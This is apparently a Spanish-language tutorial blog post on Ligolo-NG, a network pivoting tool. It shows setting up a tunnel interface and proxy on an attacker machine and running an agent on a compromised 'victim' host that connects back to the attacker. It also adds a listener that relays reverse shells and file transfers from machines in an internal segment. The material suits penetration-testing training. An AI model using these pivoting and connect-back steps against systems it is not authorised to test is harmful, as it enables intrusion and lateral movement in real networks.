 ```yaml
---
title: "Tutorial de Ligolo-NG"
date: Tue May 21 2024 02:00:00 GMT+0200 (Central European Summer Time)
categories: [Tutoriales, Ligolo-NG]
tags: [ligolo, ligolo-ng, proxy]
img_path: /assets/img/cabeceras/
image: ligolo-cab.png
---
```


#### CONFIGURACIÓN Y PUESTA EN MARCHA DE LIGOLO-NG

##### MÁQUINA ATACANTE O PROXY (NUESTRA MÁQUINA):

Primero crearemos la interface "ligolo" y la inicializaremos:

```bash
$ sudo ip tuntap add user andy mode tun ligolo
$ sudo ip link set ligolo up
$ sudo ip route add 172.16.249.0/24 dev ligolo
```

Ejecutaremos el proxy por el puerto que queramos estar escuchando:

```bash
$ ./ligolo-proxy -selfcert 

O si queremos levantar la red directamente:
$ ./ligolo-proxy -selfcert -laddr 0.0.0.0:4433
```

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231023195808.png)

----

##### MÁQUINA VÍCTIMA DE SALTO:

En la máquina víctima que nos hará de salto entre ambos segmentos de red ejecutaremos lo siguiente:

```PowerShell
> .\ligolo-agent.exe -connect 192.168.45.237:11601 -ignore-cert -retry
...
time="2023-10-23T10:34:58-07:00" level=info msg="Connection established" addr="192.168.45.237:4433"
```

Y ya está. Este último paso lo tendremos que hacer por cada máquina que tenga un segmento de red al que no podemos acceder. No hace falta ser un usuario con altos privilegios para ejecutar el agente, ya sea una máquina Linux o Windows.

----

##### MÁQUINA PROXY:

Ahora si nos fijamos en nuestra máquina, veremos que tenemos una conexión entrante:

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231023200157.png)

Pulsamos intro y activamos la sesión 1, que es la única que hay. Si hubiese más tendríamos que activarla antes de usar el túnel creado.

```bash
ligolo-ng >> session
ligolo-ng >> 1
ligolo-ng >> start
```

Probamos si tenemos conexión a la red a la que queremos llegar:

```BASH
$ ping 172.16.249.11

PING 172.16.249.11 (172.16.249.11) 56(84) bytes of data.
64 bytes from 172.16.249.11: icmp_seq=1 ttl=64 time=47.5 ms
64 bytes from 172.16.249.11: icmp_seq=2 ttl=64 time=43.2 ms
64 bytes from 172.16.249.11: icmp_seq=3 ttl=64 time=42.9 ms
```

Fantástico!!! Ya tenemos conexión con el segmento de red desde nuestra máquina!

----
- <font color="#c0504d">LLEGADOS A ESTE PUNTO EL PROBLEMA QUE SE NOS PRESENTA ES QUE LAS MÁQUINAS A LAS QUE YA PODEMOS ACCEDER NO TIENEN CONEXIÓN DIRECTA HACIA NOSOTROS, POR LO QUE UNA REVERSE SHELL O TRANSFERENCIA DE ARCHIVOS NO FUNCIONARÍA. PARA SOLUCIONARLO HAREMOS UN</font> _PORT FORWARDING_ <font color="#c0504d">HACIA NUESTRA MÁQUINA ATACANTE.</font>
----

#### PORT FORWARDING HACIA NUESTRA MÁQUINA (LISTENER LIGOLO-NG)

##### MÁQUINA PROXY

Vamos a nuestra consola proxy de _Ligolo_ y escribimos el listener que queremos levantar:

```bash
[Agent : WEB02\Administrator@WEB02] » listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
```

Esto significa que todo el tráfico que reciba la máquina de salto por el puerto 8080 lo recibirá nuestra máquina atacante por el puerto 80. De esta manera si queremos tener una reverse shell de cualquier máquina o transferir archivos, el exploit o la RS deberá apuntar a la IP y al puerto 8080 de la máquina de salto y nosotros deberemos escuchar en el puerto 80 con NC, Webserver de Python o cualquier servicio que hayamos levantado en nuestra máquina y queramos llegar desde la máquina víctima que está en otro segmento de red.

-----

#### LISTADO DE LISTENERS

Para ver un listado de todos los LISTENERS que tenemos activos lo podremos hacer con este sencillo comando desde nuestra consola de proxy de _Ligolo_.

```bash
[Agent : WEB02\Administrator@WEB02] » listener_list
```

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231024162410.png)

-----

#### LIMPIEZA Y BORRADO DE INTERFACES

##### MÁQUINA PROXY:

Para borrar las interfaces y rutas creadas tenemos dos opciones, reiniciar nuestra máquina ya que no son configuraciones permanentes o, si no podemos o no queremos, ejecutaremos los siguientes comando en nuestra máquina:

```bash
$ sudo ip route del 172.16.249.0/24 dev ligolo
...
$ sudo ip link del ligolo
```


-----

Repositorio de descarga:
https://github.com/nicocha30/ligolo-ng